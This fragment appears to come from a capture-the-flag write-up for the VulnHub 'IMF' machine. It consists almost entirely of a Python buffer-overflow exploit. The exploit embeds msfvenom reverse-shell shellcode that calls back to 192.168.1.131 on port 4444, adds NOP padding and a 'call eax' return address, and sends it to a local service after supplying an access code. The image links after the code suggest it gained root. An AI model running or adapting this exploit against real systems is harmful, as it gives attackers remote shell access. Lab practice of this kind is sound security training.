 ```python
#!/usr/bin/python3

import socket

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.131 LPORT=4444 -f python -b "\x00\x0a\x0d"
buf =  b""
buf += b"\xbf\x9e\x51\x1a\x09\xda\xda\xd9\x74\x24\xf4\x58"
buf += b"\x33\xc9\xb1\x12\x83\xe8\xfc\x31\x78\x0e\x03\xe6"
buf += b"\x5f\xf8\xfc\x27\xbb\x0b\x1d\x14\x78\xa7\x88\x98"
buf += b"\xf7\xa6\xfd\xfa\xca\xa9\x6d\x5b\x65\x96\x5c\xdb"
buf += b"\xcc\x90\xa7\xb3\x0e\xca\x59\xc0\xe7\x09\x5a\xd7"
buf += b"\xab\x84\xbb\x67\x35\xc7\x6a\xd4\x09\xe4\x05\x3b"
buf += b"\xa0\x6b\x47\xd3\x55\x43\x1b\x4b\xc2\xb4\xf4\xe9"
buf += b"\x7b\x42\xe9\xbf\x28\xdd\x0f\x8f\xc4\x10\x4f"

buf += b'\x90' * (168 - len(buf))   # NOP (No Operation Code)

buf += b'\x63\x85\x04\x08'    # call eax

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(('127.0.0.1', 7788))

s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
s.recv(1024)
s.send(buf + b'\n')
```

![](/assets/images/VulnHub/IMF/bof-py.png)

![](/assets/images/VulnHub/IMF/root.png)


